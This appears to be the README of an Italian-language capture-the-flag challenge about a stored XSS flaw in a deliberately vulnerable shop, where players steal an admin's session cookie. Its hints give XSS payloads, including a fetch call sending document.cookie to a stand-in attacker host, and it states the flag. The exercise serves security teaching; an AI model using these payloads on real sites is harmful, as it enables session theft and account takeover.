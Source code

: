 # Challenge: Stored XSS Exploit - Malicious Product Injection

## Descrizione
In questa challenge, hai accesso a un negozio online che permette di aggiungere nuovi prodotti e cercarli tramite un campo di ricerca.  
Tuttavia, il sistema non filtra correttamente gli input forniti dagli utenti, rendendolo vulnerabile a un attacco **Stored XSS (Cross-Site Scripting)**.  
Sfruttando questa vulnerabilità, potresti iniettare codice JavaScript dannoso che verrà eseguito ogni volta che un amministratore visita la pagina.

Sarà possibile eseguire codice malevolo nel browser dell'admin e ottenere il suo cookie di sessione?

## Obiettivo
- **Sfrutta la vulnerabilità Stored XSS** inserendo uno script malevolo nel nome, descrizione o immagine di un prodotto.
- **Attendi che l’admin visiti la pagina**, eseguendo il codice iniettato.
- **Recupera il cookie dell’admin** che contiene la flag `flag{you_changed_my_website??}`.

## Suggerimenti
- Il form di creazione dei prodotti accetta input arbitrari e li visualizza nella pagina senza sanitizzazione.
- Prova a inserire un payload come `<script>alert('XSS!')</script>` nel nome o nella descrizione di un prodotto.
- Puoi anche provare a rubare il cookie dell’admin inviandolo a un tuo server con `<script>fetch('https://attacker.com/log?cookie='+encodeURIComponent(document.cookie))</script>`.
- Ci sono dei siti come [Beeceptor](https://beeceptor.com/) che ti permettono di creare un server fittizio per ricevere i dati inviati con `fetch`.
- È possibile iniettare codice JavaScript anche nell’URL di un’immagine, ad esempio `<img src=x onerror="alert('XSS!')">`.

Buona fortuna! 🚀🔓
